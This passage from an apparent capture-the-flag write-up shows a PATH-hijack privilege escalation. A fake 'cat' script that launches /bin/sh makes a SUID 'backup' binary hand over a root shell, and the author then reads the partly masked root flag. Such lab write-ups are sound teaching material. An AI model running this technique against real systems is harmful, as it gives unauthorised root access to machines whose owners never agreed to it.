 Now when I run `./backup`, it runs my `cat`, which prints the `id` which shows an effective user id of root:

```

mitsos@LazyClown:~$ ./backup 
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)

```

I can simply replace `id` with `/bin/sh`:

```

#!/bin/sh

/bin/sh

```

And now I `backup` returns a root shell:

```

mitsos@LazyClown:~$ ./backup 
# id
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)

```

I can try to grab `root.txt`, but nothing comes:

```

# cat root.txt

```

I need to set the `$PATH` back so that it doesn’t call my `cat`, or I can use `tac` or `less` or `vim` or `grep .` or lots of other ways to get at file contents:

```

# PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
# cat root.txt
990b142c************************
# grep . root.txt
990b142c************************
# tac root.txt
990b142c************************

```

## Beyond Root
